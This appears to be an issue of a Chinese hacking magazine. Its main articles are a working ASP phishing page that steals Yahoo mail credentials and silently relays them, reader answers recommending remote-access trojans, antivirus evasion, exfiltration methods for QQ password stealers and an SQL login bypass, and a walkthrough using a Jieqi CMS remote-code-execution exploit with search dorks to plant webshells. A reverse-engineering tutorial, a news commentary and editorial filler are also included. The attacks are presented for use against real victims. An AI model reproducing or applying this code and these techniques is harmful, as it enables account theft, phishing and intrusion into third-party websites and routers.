## 用 Asp 编写钓鱼网页盗发 Yahoo 邮箱

□西北工业大学软件与微电子学院 2008 级 7 班 李勤恭

- 从本文您可以学到：
- 1. 了解网络钓鱼
- 2. 利用 ASP 实现简单钓鱼
- 3. 存放在网络上的信息如何进行保护

网络钓鱼不是什么新兴的技术，在当今更是应用得非常普遍。今天我们就来了解一下用 Asp 怎样编写一个钓鱼网页，盗取 Yahoo 的邮箱，以及如何对所盗得的信息进行保护，不让他人窃取。

钓鱼方式窃取信息的重点是将信息截留，然后再提交到正常页面，用户看似正常登录，其实密码不知不觉已经被我们拿到了。

### 获取邮箱登录表单

这个是最基础的工作，我们必须获得用户登录的表单以及其中的一些元素，才可以自己伪造提交地址对用户进行欺骗。打开页面 http://mail.yahoo.cn，右键查看源代码，直接搜索文本“<form”可以找到我们需要的表单。

把一些无用的代码全部去掉，比如广告那些，最终提取到必须的一些信息。大家来看这个最简短的登录表单，不必要的东西我全部删除了，代码如下：

```html
<form id='loginform' method='post' name='loginform' action='https://edit.bjs.yahoo.com/config/login' autocomplete='off'>
<input type='text' value='' name='login' class='inp' id='emailinput' />
<input type='password' name='passwd' class='inp' id='passinput' />
<button name='submit' class='ba1' type='submit'>登录</button>
</form>
```

表单的名字叫做 loginform，通过 post 方法提交，邮件地址和密码提交到 https://edit.bjs.yahoo.com/config/login，邮件名是存放在 login 这个文本框中的，而密码则是存放在 passwd 文本框中。明确了这点之后，就可以自己来修改提交的地址，以及对提交的密码进行保存。

我们将 action 提交的地址改成 check.asp，然后自己写一段接收密码的 asp 代码，将其保存为 check.asp。在截取了密码之后，我们还必须将它正常提交出去，如果不能正常提交，必定会引起用户的怀疑。

### 编写代码截取密码

首先需要指出的是，表单中提交的信息只能从一个页面直接传递到另一个页面，而不能从一个页面非常直接地连续传递到两个页面。

比如说从 mail.html 先传递给 check.asp，然后再转向到 check1.asp，这时候 check.asp 可以接收到 mail.html 中的数据，而 check1.asp 则不能接收到。所以，我们需要在 check.asp 中再次输出一个基本相同的表单，用这个表单向 https://edit.bjs.yahoo.com/config/login 提交信息。

看完下面的代码大家就明白了，Check.asp 的代码如下：

```asp
<%
dim username,password    ' 声明两个变量 username 和 password
username=request("login")    ' 取得邮件地址
password=request("passwd")    ' 取得密码
if username<>"" and password<>"" then    ' 如果邮件地址和密码都不为空，则保存
  set fso=server.createobject("scripting.filesystemobject")    ' 建立 fso 对象
  set fish=fso.opentextfile(server.mappath("passfile.asp"),8,true)    ' 打开文件 passfile.asp 进行写入，如果文件不存在则创建
  fish.writeline username & "----------------" & password    ' 写入邮件地址和密码
  fish.close    ' 关闭文件
  set fso=nothing    ' 释放 fso 对象
end if
%>

<script language="vbscript">
sub window_onload
  settimeout "bingker",1000    ' 页面载入后一秒钟触发 bingker 过程
end sub
</script>

<script language="vbscript">
sub bingker
  document.form1.submit    ' 直接将表单进行提交
end sub
</script>

<form id="form1" method="post" name="form1" action="https://edit.bjs.yahoo.com/config/login" autocomplete="off">
  <input type="hidden" size="0" value="<%=request("login")%>" name="login" class="inp" id="emailinput" />
  <input type="hidden" size="0" name="passwd" value="<%=request("passwd")%>" class="inp" id="passinput" />
</form>
```

在后一段代码中大家看到有写一个表单 form1，其中的 login 和 passwd 我都设置成了 hidden，也就是不可见，用户在页面上只能看到一个空白，但是邮件地址和密码却传递出去了。

根据阐述，一秒钟后提交是比较理想的，当然也可以设置得更小，比如说 500 毫秒，这里是以 ms 为单位的，1000ms 为一秒。虽然登录的时候会出现一秒钟的空白，但对于一般的用户来讲，一秒钟的空白是可以接受的。

经过测试，上面的代码完全可以截取到密码，并且正常地登录邮箱，这也是 Yahoo 邮箱的一大 bug，居然没有对数据是否为外部提交进行判断。网易邮箱这一点做得非常好，外部提交不能登录成功，其他主流邮箱的测试就留给大家来完成了。

### 保护得到的密码

对于所取得的密码，我们十分有必要进行一定的保护。几年前非常火爆的“阿拉 QQ 大盗”密码文件泄露就是个例子。由于作者直接将密码保存到 txt 文件中，没有考虑对其进行保护，造成了经典地在 Google 里面搜索 inurl:qq.txt 就可以盗得邮箱的事情，呵呵，当然，这也跟使用者的安全意识不太高有关。

大家在看上面的代码时一定发现了，我们是将密码保存到一个 asp 的文件 passfile.asp 中。为什么要是 asp 文件呢？大家请看我在文件开头处插入的代码：

```asp
<%
if request("nohack")<>"123" then    ' 设置访问的密码，如果没有密码或者密码错误，则停止输出文本
  response.end
end if
%>
```

可以看出，如果我们直接访问 passfile.asp，看到的将是一片空白，如图 1 所示：

只有当我们访问 passfile.asp?nohack=123 的时候才可以看到截取的密码，如图 2 所示：

这是保护密码信息的一个非常简单的方法，密码可以随便设置。当然了，保护密码的方法还有很多，比如说保存到数据库中，或者是在 asp 文件中插入错误代码。

### 应用中应该注意的问题

钓鱼攻击是有一定的局限性的，首先你不可能将自己的钓鱼页放到目标网站的同一个服务器上，也不能通过目标网站的域名来进行访问，但是，我们可以伪造，尽量做得相似就行了。

比如说我们这里是盗 Yahoo 的邮箱账号，它的域名是 mail.yahoo.cn，那么就可以伪造一个诸如 mail.yahoo.nohack.cn 的二级域名，对用户进行欺骗。还有就是，如果将截取的页面命名为 check.asp，当用户提交的时候地址栏中就会出现一个 check.asp，而且还会停留长达一秒钟，所以最好将这个页面命名为 index.asp，action 中的地址直接填上 action="/" 就可以向其提交数据了，地址栏中是不会出现任何变化的。

Yahoo 邮箱钓鱼的应用就介绍到这里吧，大家还可以尽量多发挥，盗取其他页面上的账号信息，比如说网络游戏。呵呵，这个就看你的兴趣了，欢迎大家到论坛与我交流，ID 是冰域剑客。

> （文章中所涉及的相关代码及工具都已经收录在光盘中）

**编辑点评：**  
Yahoo 的这个 bug 都这么久了，还没有处理啊？小编佩服，真是佩服之至了！

## Cracker 1008 新年

迎接了元旦，又准备跨进 2009 年的春节了，小编在这里祝大家新春快乐、万事如意！据了解，春节是中国民间最隆重最富有特色的传统节日。一般指除夕和正月初一，是一年的第一天，又叫阴历年，俗称“过年”。我们这边过年的时候，根据以往的习俗，新年新气象，理头发、剃胡子、剪指甲、穿新衣服等等，很多都是曾经很喜欢的，但是随着社会的发展和年龄的增长，总觉得现在的春节都失去了原有的意义。以前春节大年初一的我还在家里玩破解，不过今年我决定给自己放假，也希望大家过一个有美好回忆的春节。

## 今日脱壳源

- 1. CFF Explorer

这是一个脱壳后的减肥工具，很多人对程序做减肥，首先想到的可能是 LordPE。但是随着技术的发展，作者们的倾情贡献，现在的工具是越来越多了。俗话说得好，不要吊死在一棵树上嘛。

### 2、Windows CE API 手册 v2.0

引用原话：“本手册收录并翻译了 MSDN Library for Visual Studio 2008 中超过 2000 个 API 函数和宏的资料信息，分为：系统函数、COM 函数、驱动函数、网络通信 4 个大类，并具有以下特点：

- 1. 资料权威。本手册中收录的绝大多数函数和宏都取自微软 MSDN，权威性比较有保证。部分从 DLL 中找到的 API 在 MSDN 中尚未介绍，我们收录这部分 MSDN 未介绍的 API 主要是认为这些 API 似乎比较重要，希望有熟悉这部分 API 使用的高手能够多多指教。
- 2. 分类详细。本手册根据 API 函数的功能进行了详细分类，方便读者学习 API，提高学习效率。
- 3. 提供编程示例和开发经验。本手册取自 Xarm 开发系统，我们已经用 Xarm 系统试验了 1000 个左右的函数，在试验中获得的经验教训都保存在本手册中。用户使用本手册除了可以查询函数的使用方法，还可以参考我们提供的心得体会加深对 API 的理解。
- 4. 不断更新。

### 3、Windows 核心编程

本书是讲解 Windows 操作系统内部机制的一本专著，作者从基本概念入手，全面系统地介绍了 Windows 底层实现机制、Windows 应用程序的基本构件（包括进程、线程、内存管理、动态链接库、线程本地存储和 Unicode）以及各类 Windows API 等，并列举了大量应用程序示例，精辟地分析了 Windows 编程的各个难点和要点，为掌握 Windows 编程技巧提供了一条有效的捷径。附件压缩包内含《Windows 核心编程》PASCAL 代码、《Windows 核心编程》PDF、《Windows 核心编程》三部分。

## 手动脱未知壳

从本文你可以学到：  
如何手工脱未知壳

未知壳，是与已知壳相对而言的，世上本没有“壳”，但写的人多了，壳就出来了。未知壳，是我们在破解中经常会碰到的，只要你是玩破解的，就无可避免地会遇上，如果还没遇上的话，那只是时间问题而已。所以，学习脱未知壳，也是非常重要的一课，这一次我就给大家介绍一下关于脱未知壳的一些方法。

这一次给大家带来的目标程序是一个文件夹病毒，呵呵，别担心，如果你要跟着学习的话，可以在虚拟机或者影子系统等环境下进行，因为未知壳的病毒木马占有绝对的强势。嗯，废话不多说了，马上将目标程序拖进 PEiD 中，扫描的结果如图 1。

可以看见 **Nothing found [Overlay]**。是吧？就是未知壳的意思，后面还有一个附加数据。按照我的经验，可以暂时先主观地认为它是一个易语言程序，为什么这么认为呢？玩过易语言的人都知道，独立编译的时候，易语言会把一些库文件附加到程序的后面，这样程序才可以在没有安装易语言的系统中很好地运行起来。这只是一个暂时的判断，因为有些病毒也会出现有附加数据的情况，所以判断不能太绝对了。好了，现在将目标程序丢进 OD 里面去看看吧？


相信自己，这一点很重要。其实在最开始刚看的时候我也无从入手，但是我的手经常不安分，习惯去看看“内存”，如图 2。

我在 .data 段，信息如下：

Memory map，条目 24  
地址 = 0040A000  
大小 = 00022000（139264.）  
原主 = 2 00400000  
区段 = .data  
类型 = Imag 01001002  
访问 = R-  
初始访问 = RWE

```asm
00401190 > 52                push    edx
KifastSystemCallRet  /// 入口点，入口点不等于 OEP，大家别搞错了
00401191   2BD2              sub     edx, edx
00401193   53                push    ebx
00401194   51                push    ecx
00401195   50                push    eax
00401196   56                push    esi
00401197   57                push    edi
00401198   0F84 C2FFFFFF     je      00401160
0040119E   74 8D             je      short 0040112D
004011A0   D219              rcr     byte ptr [ecx], cl
004011A2   71 96             jno     short 0040113A
004011A4   8EA0 E847724E     mov     fs, word ptr [eax+4E7247E8]
004011AA   1363 85           adc     esp, dword ptr [ebx-7B]
004011AD   1BE3              sbb     esp, ebx
004011AF   A7                cmps    dword ptr [esi], dword ptr es:[edi]

004011B0   E3 C1             jecxz   short 00401173
```

从上面代码可以看出什么呢？是不是什么都看不出来？嗯，很正常，因为可能被加了一些生僻壳，或者作者对代码做了处理，但是不要认为这会很难，我们要迎难而上，给自己一点信心，要先按 F2 下个断点，再按 F9 运行看看：

```asm
00401367   8100 BD6476ED      add     dword ptr [eax], ED7664BD
/// 中断在这里
0040136D   E9 92FFFFFF        jmp     00401204    /// 这里是回跳的
00401372   204B 98            and     byte ptr [ebx-68], cl
00401375   8003 B9            add     byte ptr [ebx], 0B9
00401378   04 48              add     al, 48
0040137A   BE 38D4611F        mov     esi, 1F61D438
0040137F   A9 EEE465A8        test    eax, A865E4EE
00401384   B9 6A558B32        mov     ecx, 328B556A
00401389   D2E8               shr     al, cl
0040138B   0F85 D6FFFFFF      jnz     00401367
00401391   0F83 1D000000      jnb     004013B4    /// 这里跳得很深
00401397   CA 303E            retf    3E30
```

在 00401391 处 F2 下断点，F9 运行起来：

```asm
004013A8    F8                clc
004013A9    0F83 DCFFFFF?     jnb     0040138B
004013AF    0392 50C67883     add     edx, dword ptr [edx+...]
...
004013B5    C3                retn
```

/// 中断在这里：

F8 走几下来到以下代码处：

```asm
0040124E    0F85 AD010000     jnz     00401401   /// 走到这里
00401254    0F82 97010000     jb      004013F1   /// 这里又跳得很深
0040125A    1CA? 0909         retn    990
```

在 00401254 处 F2 下断点，F9 运行会中断在该处，断下后不断 F8，来到如下代码处：

```asm
0040140F    E9 6D280000       jmp     00403C81   //// 跳向 OEP 了
00401414    B0 F9             mov     al, 0F9
00401416    D21D EBF43280     rcr     byte ptr [...], cl
```

0040140F 处的 jmp 就是飞向光明之巅的地方了，赶紧 F8 一下，来到 OEP 处：

```asm
00403C81    55                push    ebp
00403C82    8BEC              mov     ebp, esp
00403CB4    6A FF             push    -1
00403CB6    68 F0724000       push    004072F0
00403CBB    68 F4504000       push    004050F4
```

看到了吗？你不会傻了吧？不敢相信自己能脱掉吗？忘了下一步怎么做是不是？没关系，我来告诉你吧！马上启动 LordPE，选择所在的进程，如图 3。


选择 “dump full” 即可抓取下来了，将自动保存为 “dumped.exe”。接着启动 ImportREC，修复 dump 下来的程序，选择所在进程，输入 oep=3c81，然后点 “AutoSearch”，将会自动搜索 IAT。接着点 “Get Imports”，如图 4。


可以看到函数都找到了，最后点 “Fix Dump” 修复。403c81 这个入口点你可能会觉得陌生，既然到了 OEP，那么现在使用 OD 自带的那个搜索功能看看吧，如图 5。


你能看出什么吗？大家注意以下代码：

```asm
004017C7    mov dword ptr [esp], 0040814C
004017DE    push 00408140
```

你一定不会陌生，因为它们标志着目标是易语言程序，与我当初所想完全吻合。还记得前面查壳时结果中的附加数据吗？附加数据不加上去，程序是运行不起来的，就算是病毒又咋样？如图 6。


看到了吧？所以接下来就是把附加数据补上去。怎么样呢？在以前可能比较麻烦，但在工具发达的今天，完全可以使用 PEiD 的一个插件就可以轻松完成，如图 7。选择 “Overlay 1.0” 就可以启动插件了，如图 8。


**资源文件：**  
**选择未脱壳的程序；目标文件：选择已脱壳的程序；**最后点“复制附加数据”，下面就会提示复制成功，然后会自动生成一个备份文件 dumped.BAK，最后运行一下补上附加数据后的程序，如图 9，正常运行了。


脱未知壳很多时候需要一点经验、一点技巧、一点方法、一点运气，当然，扎实的基础比什么都好。所以，在开始的时候，脱不掉未知壳也是很正常的，请不要灰心。最后希望本文对你有点帮助。那么我的目的也就达到了。很久没写教程了，这里祝大家春节快乐，算是迟来的祝福吧！

> **编辑点评：**
>
> 未知壳也确实比较烦，对于新手来说，很多时候都是被查找字符串等所困扰，找不到切入点。但是壳把初学者拦在了外面，所以学习破解，每一课都是很重要的。


# 读编互动


写在前面：

不知不觉，我和这个栏目陪伴读者走过了几个年头……回望那些对着论坛帖子发呆的日子，有过无趣，也有过烦躁。对于林林总总的问题，我也请教过百度、询问过朋友，解决问题的同时，所有的感觉都融成了快乐。其实想想，提问才是最快乐的事情，天下无完人，不耻下问才是学习之乐道。希望我这个智客能陪伴读者朋友走过更长的日子，也祝愿大家在今年牛气旺旺、步入牛人行列，只是别问太牛的问题，牛死我了。最后是：春节快乐，提问快乐！

Q：我是局域网，怎么样抓外网的鸡呢？还有，用什么远控比较好？希望能给详细的介绍下。

A：木马各有优劣之分，现在的木马基本采用服务模式启动、驱动保护及相关 rootkit 技术，至少我可以推荐 pcshare、灰天使和 SRAT 等。木马各有优势，但是相比我而言，越是名字大的木马做免杀的难度越高，所以免杀的基本功要打好。最后说说关于肉鸡的反向连接，最好使用路由做端口映射或者用肉鸡做转发。

原文链接 http://www.nohack.cn/bbs/thread-88158-1-1.html

Q：谁能帮我解决下虚拟机的问题？

问题 1：通过虚拟机不能上网，我是家用宽带，没分给别人用，拨号上网的。虚拟机的网络连接我选择的是桥接，IP 设置的和本机差不多，虚拟机装的系统是 XP，和本机装的一样。

问题 2：不能直接从本机上拖拽文件到虚拟机，我拖拽的话，虚拟机会提示“无法计算文件大小，你可能没有执行该操作的权限”。还有一点，我已经装过 TOOLS 驱动了。

A：至于第一个问题，我建议还是用默认的桥接模式，如果实在不行就换用 NAT 模式吧。关于虚拟机上网的问题肯定是你的设置问题，建议你到虚拟机下用 ipconfig 命令看看，然后 ping 一下 DNS 服务器的地址，去确定问题所在。

而第二个问题，应该是版本问题了。VMWARE 6.0 版本的确存在文件无法拖拽的 BUG，建议你换用比较新的 6.0.3。我使用的是 DEEPIN 的绿色版本，只需要注册好相关的 dll 文件，建立相关注册项目后，启动必须的服务，然后安装 vmware tools 就可以了。

原文链接 http://www.nohack.cn/bbs/thread-86183-1-6.html

Q：我用 QQ 密码大盗 2.1，为什么自己的电脑中了这个木马后，我注册的邮箱却没有收到我的 QQ 密码？望朋友指教一下！

A：常规盗号木马应该自带一个发信测试功能，但是现在一般主流的邮件服务一般都会根据邮件头把工具发送的邮件作为“垃圾邮件”处理。这里就不细谈涉及信箱的问题讨论了，因为和 SMTP、POP3 协议有关。我建议还是使用网站发信模式，首先申请或者购买一个空间（想必玩木马的仁兄没个空间是说不过去的），把传输信息的 asp 文件上传到空间服务器，然后设定好木马访问地址。因为盗号木马很容易被防火墙拦截，或者抓包工具截获数据包，所以 web 模式的收信方式是相对安全的。

原文链接 http://www.nohack.cn/bbs/thread-88193-1-1.html

Q：我攻入了不少 TP-LINK 路由器，想获得里面的信息，却不支持右键，不能读取源代码，不知有方法解决吗？谢了。

A：关于 TP-LINK 路由器，它的管理页一般是采取的框架结构，这里我先谈谈如何获取程序递交的页面。例如你要查看“WAN 口设置”是链接到了什么地址，可以在链接上右键一下，左下角的状态栏就能显示地址了。再或者你可以采用 FIREFOX，进入路由管理后，打开工具栏下的“页面信息”，在分级菜单的“链接”下就能看到所有二级地址了。

其实最简单的方法就是采取抓包，我们使用 WsockExpert 选择页面监听，任何传递的页面都能被抓包器截获。至于你问题的本意，是想获取宽带密码吧？我们用 WSE 监听后，在 WAN 口设置里保存一下，我这里截获到的内容如下：

```text
/userRpm/PPPoECfgRpm.htm?
wantype=2&acc=a123456&p
sw=Hello123World&linktype=2&Save=
%B1%A3+%B4%E6
```

密码 Hello123World，和采取星号密码查看器的结果一致，可别被忽悠了。

原文链接 http://www.nohack.cn/bbs/thread-88119-1-1.html

Q：帮忙解答下，我下载了网站的数据库，但为什么进后台说我密码不正确？找到 dlyf_admin 查看账号密码成功，但到了后台页面输入账号密码后为什么说不正确？请高手帮忙解答！谢谢！

A：分析存在以上问题的可能情况有以下三种：

- 1、你下载的数据库并非是后台登录页面所指定的数据库，也就是说是一个假的或者是过时的数据库。
- 2、你所登录的后台是伪造后台，现在很多 BT 管理员会放一个假的后台，所以你输入任何数据库都无法登录。
- 3、数据库和后台都是真实的，但是后台的登录页面做了判断管理，在处理查询的语句上加上一个定义字符做连接，那么即使你得到了真实的密码也是无法登录的。而这个字符就像动易的认证码一样，是页面定义的，你几乎没有解码的可能。

参照以上三种的可能分析结果，你可以尝试用 google hack 或者强化的后台字典找到真实的后台，或者尝试使用 `'or'='or'` 这样的万能密码作为登录。

原文链接 http://www.nohack.cn/bbs/thread-85856-1-9.html

## 建议选摘

## 感言

**名字：** 永远的疯子

**职业：** 学生

**建议：** 我喜欢易入门的、有代表性的、能够启发思维的文章，而我喜欢“黑手”的另一个重要原因就是小编的点评，这些点评很重要，让自己学到了很多，有时比看原文还有收获，希望“黑手”能够把这一特色发扬广大！

> 菜花点菜编：知识的吸收是因人、因势而定的，也许你第一次看文章是一头雾水，但随着时间的推移，而你又接触到新的知识，增加了经验后，再看一次同样的文章，顿时感觉：当时怎么就不明白呢？编辑我有时也是这样，这个 QQ 如何才能隐身登录呢？后来过了 3 年……（众人：果然是天下第一菜编！）终于明白了，只要 QQ 登录的时候自己不要在电脑旁就行了……（众人无语中）

**名字：** 陶刚

**职业：** 工人

**建议：** 嗯……怎么说呢？我不是在创刊的时候就开始买的，大概在 2006 年下半年的时候才接触到。当时看到《黑客手册》的时候很激动，因为以前总感觉黑客是很神秘很牛的，我没机会接触那些，因为看到这本书的时候开始，我知道我也能学习了。

当我翻开杂志时，很多文章看不懂——一下子把我的热情给熄灭了。我想说的是，一般的人看到有关“黑客”的书籍时，大都很想去接触，尤其是没接触过的，他们抱着好奇、期待等情绪。但是一打开，全是看不懂的文章，除了非常想学的（就比如我），其他人都会摇摇头，把书放下来了。

可不可以这样：在杂志的首页或者是比较醒目的地方放一小篇简单的适合初学黑客的小菜看的文章，或者是能引起别人兴趣的文章，不需要太多的技术含量，要的是能调动人的积极性和好奇性，让人对黑客领域感到很期待的那种。这样才能更多地吸引人去买，肯去掏出口袋里的钱。呵呵，好像有点偏向于商业化了，这些就是我个人对于手册的一个不算建议的建议。

> **老编：** 这位读者也算是老读者了，2006 年就开始支持“黑手”。我们的读者群在年龄、地区方面跨度很大，所以我们杂志内容的跨度也还是很大的，这就需要大家发扬“自由、共享”的黑客精神，高手多写写经验、传授给新人，新人也多多试验，把问题反馈给高手。论坛是大家互动交流的地方，每天都来逛逛也是会有所收获的。最后，我率杂志全体人员向所有支持“黑手”的新老朋友拜年，祝春节愉快，多收红包，然后拿来买“黑手”哦！


# 非安全宝典

No.200903  ￥10元

黑客手册

## 裤衩


天冲邮电，会费2元，补收中，新不退旧，破损经销吗  
使用程序远程控制入侵方法大扫描  
打造VPN安全的阻塞  
PPTP、VPN攻防实战

> WWW  
> nohack  
> .cn

在线商城：book.nohack.cn  淘宝店：taobao.nohack.cn  本刊随光盘赠送  WWW.NOHACK.CN  
中国法律规定安全法律提醒你：非法侵入他人电脑是一种违法行为

## 春天，一年的希望！

盼望着，盼望着，东风来了，春天的脚步近了。

一切都像刚睡醒的样子，欣欣然张开了眼。山朗润起来了，水涨起来了，太阳的脸红起来了。

> 春天像刚落地的娃娃，从头到脚都是新的，它生长着。  
> 春天像小姑娘，花枝招展的，笑着，走着。  
> 春天像健壮的青年，有铁一般的胳膊和腰脚，领着我们上前去。
>
> ——《春》朱自清

很熟悉的一段文章摘抄，应该来自初中，大家都大声朗读过吧？古文有载：“春耕、夏耘、秋获、冬藏……四时之间，亡日休息。”正所谓，春不耕，秋无望。

春是四季之一，在中国，春季的开始是在立春（2月2日至5日之间），结束是在立夏（5月5日至7日之间）。而欧美，春季从中国的春分开始，到夏至结束。在境外，比如爱尔兰，2月、3月和4月被定为春季；南半球的国家，一般9月、10月和11月被定为春季。

在春季，地球的北半球开始倾向太阳，受到越来越多的太阳光直射，因而气温开始升高。随着冰雪消融，河流水位上涨，春季植物开始发芽生长。许多鲜花开放，冬眠的动物苏醒，许多以卵过冬的动物孵化，候鸟从南方飞回北方，因此中国也将春季称为“万物复苏”的季节。

春季气温和生物界的变化对人的心理和生理也有影响，所以也有“春困、夏眠、秋乏、冬懒”一说，呵呵。各位读者们在过完年后，感觉自己是否有变化呢？从春节到元宵，喧闹的人声、轰响的炮仗，让我们的听觉、视觉、味觉、嗅觉、触觉全都给它工作，一大帮亲戚朋友终于有时间相聚在一起，把酒言欢，说说一年中遇到的事……感叹下时间飞逝带来的年华老去，世事变迁。

长假之中，每天都是第二天睡觉，第二天醒来，充足睡眠保持神采奕奕，生龙活虎地跟着一群小孩子到处跑，变着花样地放炮，什么点炮扔河里炸鱼啊，放在铁饭盒里看能炸多高啊……吓得MM们双手直捂耳朵，呵呵……最后的惩罚就是，帮她们放孔明灯了。

哎，休闲的生活总是很惬意，没有什么快节奏，感觉连呼吸都是那么顺畅，如此休闲下去，怕是会变成修仙了。随着假期结束，喧嚣的大地突然转为平静，一切又都慢慢“正常”起来……

春节过后，应该是北京春节后的第一场雨，稀释了火药硝烟的气味，也冲去了满地的炮屑，忘了春节，迎接春天吧，我们相信，2009年，中国牛年一定会再次喧嚣热闹的！抓住春天，种下希望，用辛勤浇灌，用耐心呵护，等待夏天的树下乘凉，秋天的果实采摘，冬天的取木生火……

红红火火的希望让我们不要失去信心，有风俗学相关人士说过：2008年到2012年，中国将是艰难效应，牛年就要拿出牛劲（还好中国没啥牛，哈），我们放眼看看祖国改革开放30年来的广袤成就吧！

鉴于现在“1、非安全；2、黑客手册”两个名字共用过长和不唯一性，给网站和杂志的应用带来一定的不便，于是决定邀请广大网友群策群力，共同为 Nohack 打造一个新未来！！

活动奖品：在此活动中的优胜者，将得到我们为其提供的丰厚奖励！

优胜者（一名）将得到：

- 《非安全·黑客手册》杂志的一年刊；
- Nohack 的超级大礼包（黑手T恤、光盘包、笔袋、专用笔等……）

为了感谢各位黑友对《黑客手册》多年来的支持，在此活动中，特开设了纪念奖和幸运奖两个奖项！

- 纪念奖（三名）将得到：《非安全·黑客手册》更名后的第一期杂志1本，提名纪念版
- 幸运奖（二名）将得到：《非安全·黑客手册》纪念小礼品！

**活动要求：**

此活动的要旨是为《非安全·黑客手册》重新取一个名字！在取名的过程中，请各位黑友注意以下几个限制条件，除去以下的限制，请你发散思维、天马行空，充分发挥你的想象空间。

- 鉴于“黑客”这个词现在已被重新包装和“改良”，和原最初出处的含义已经产生了较大的反差；于是为避免误会，所以在名字中不要出现“黑客”“hack”“hacker”等词汇；
- 名字中不得有违反法律法规和有损道德的词汇出现；
- 名字要简洁明了，雄浑大气！要能与网络安全联系在一起；
- 取名不受通俗性和限制，数字、字母、外文等，皆在允许范围内；
- 在发送其所取名字的同时，最好可以把对这个名字的解释和含义一同发送给我们；
- 没有限制每人取名字的个数，只要你觉得好的，都可以发给我们！

活动方式：黑友可将自己取的名字经过以下方式发送给我们。本站特设的发送平台（必须本论坛的注册会员方可访问，这样便于记录）：http://www.nohack.cn/rename/

**注：各位黑友要对自己取得的名字进行保密，如果出现抄袭现象，将取消其参加资格，望各位黑友自觉遵守！**

活动时间：自本站开设之日起，到最终定下新名字。自《非安全·黑客手册》开办以来，一直受到很多黑友的默默支持，在这里再次谢谢大家对我们的支持！2009，黑手有你更强大！加油！

## 从卫星撞击事件窥开联想

# 新闻时评

牛年一到就想“撞”好运，很意外地看到：美俄卫星太空相撞！此次撞击事件于美国东部时间2月10日11时55分（北京时间2月11日零时55分）发生在西伯利亚上空约790公里处。两位在宇宙空间有着绝对话语权的对手，在太空来了一次“死亡之吻”，据说这是太空中首次发生完整的在轨卫星相撞事件。

从报道来看，这一次似乎俄罗斯要平静得多，因为损失的只不过是报废了的“宇宙2251”军用通信卫星，而美国的则是“铱33”商用通信卫星，是66颗卫星组成的卫星网络中的其中一颗，其功能为向全球提供语音和数据通信服务，这一撞使得卫星群提供的服务可能会受到一定影响。不过美国方面已经表态，他们在太空中还有8颗备用卫星，公司计划在30天内用其中一颗备用卫星替代“铱33”，而目前卫星网络运行基本正常，但部分客户可能会出现短暂的服务中断，预计3—5天左右可得到恢复。

联想一：备用卫星

一个公司就有8颗备用卫星，是否还有其它“实用”用途呢？料想未来，国际上应该会对卫星在空间的运行进行规范化，以合理利用空间资源。而现在，多发卫星、多占座，这也是个好的策略。但是，这些备用卫星也是在慢慢老化，浪费年限，一向高效率办事的美国人会就这样占座？

继续看报道，在俄罗斯方面，其航天专家说，卫星撞击后产生的碎片向不同方向飞散，这些碎片有可能撞上处于太空漂移状态、高度相近的苏联时期的卫星。这些卫星属于退役老化的海洋监视卫星，上面装有核反应堆，如果碎片与这些卫星相撞，有可能在太空中形成放射性碎片带，这就是所谓的“太空垃圾”了。

通常所指的太空垃圾，都是人为制造发射到太空中的物体。由于完成使命或无法修复的故障因素，目前被人类遗弃在太空中的垃圾也越来越多，小到人们日常的生活物品及人造卫星碎片、漆片、粉尘等，大到整个火箭发动机构成，这些留在太空没用的东西，都属于太空垃圾。

**联想二：带核卫星 + 太空垃圾**

美俄难道将冷战舞台从地球迁移到了太空？笔者是第一次知道带核卫星，这无疑使人联想到“星战计划”！据悉，目前国际有关法规规定，禁止在空间进行实验和部署各种武器，限制发射核动力卫星，使空间成为为人类文明服务的和平空间。同时，各国也在针对太空垃圾进行严密监视与跟踪，并积极发展太空垃圾清除技术。

目前处理人造卫星形成的太空垃圾的方法主要包括：进入“轨道墓地”、导弹击落、返修和就地燃烧几种。而根据国际惯例，人造卫星太空垃圾通常由卫星所属国家进行处理。目前，已经有许多国家在卫星的回收、击毁上有过实际行动，希望他们也将技术用到正途，造福人类。

> **小迷点评：**
>
> 在看过这次卫星相撞事件的相关报道后，笔者忽然感觉到，在有线网络领域，越来越多的真假黑客已经挤满了通道，而无线网络领域，黑客们已经开始活跃。想想未来，是不是“空间黑客”才会成为技术巅峰的代名词？虽然现在国际有关法规规定不得在空间进行实验和部署武器，但如果把卫星也作为一种“武器”呢？想起二战时期日本的“神风”特攻队……

> “原点”言语：
>
> 大家过年过得怎么样？不知道还有多少人会收到红包呢？“黑手”举办的元宵灯谜会你参加了吗？这个也是有礼物相送的哦。话说，今年过年期间网络不太平静，你都知道么？呵呵，大家多看看“黑手”就知道了！


## 再掀抓鸡狂潮

图：LC 旋律

**从本文你可以学到最基础的漏洞利用程序使用**

这段时间的网络可真是不平静，三天五日就爆出一个洞子，过年大家也不闲着。这不，在小说系统中使用率最高的杰奇小说爆出了一个严重的漏洞，攻击者可以通过这个漏洞来直接获取目标网站的 webshell，接下来我们就来看看这个漏洞的威力吧！

首先我们把 flyhat 写的 PHP 版漏洞利用程序复制到 PHP 环境的目录下，至于如何搭建 PHP 环境，我想经常看“黑手”的朋友应该都不陌生吧！不懂的可是要打 PP 了。

我们打开 cmd，跳到 PHP 的安装目录，然后输入“php jieqi.php”，就会看到详细的使用说明了，如图1所示。

```text
php jieqi.php

Jieqi cms <= 1.5 remote code execution exploit
by Flyhat
mail: flyh4t@hotmail.com
team: http://www.wolvez.org
work: 技术支持：杰奇网络

usage: php jieqi.php host path
host: target server (ip/hostname)
path: path to jieqi cms

example:
php jieqi.php localhost /
```

图1

这个利用程序的使用格式是“php jieqi.php 网站地址 路径”。一般情况下，这个小说程序都是放在根目录下，所以我们一般用“/”就可以了，如果是其它目录（比如 nohack），我们就用“/nohack/”。

现在我们到网上搜索一下目标，我给大家一个关键字 inurl:"register.php" intitle:小说，这样搜索准确率会大大提高。现在我们选择一个目标（假设地址为 http://www.nohack.cn），然后到利用程序那里输入 php jieqi.php www.nohack.cn /，回车一下之后就获得 webshell 了，如图2所示。

现在我们用一句话木马客户端来连接一下吧！连接密码为“wolvez”，如图3所示。

接下来的事情肯定就是上大马了，这就不用我多说啦！没有 PHP 环境的朋友也不用沮丧，这里我为大家找了个 HTML 版的利用程序，如图4所示。

只要我们把目标网站的网址输入（记得后面要加“/”哦），再点一下“确定”按钮，目标站点的根目录下就会生成一个名为 luoye.php、密码为 luoye 的 shell 了，如图5所示。

好了，杰奇小说的 Oday 就为大家介绍到这里，同时我也为各位读者提供了一个利用教程，不懂的朋友可以参考一下，最后祝各位读者在新的一年里肉鸡多多、技术节节高升！

> 【文章中提到的 exp 及教程已经收录于本期光盘中】

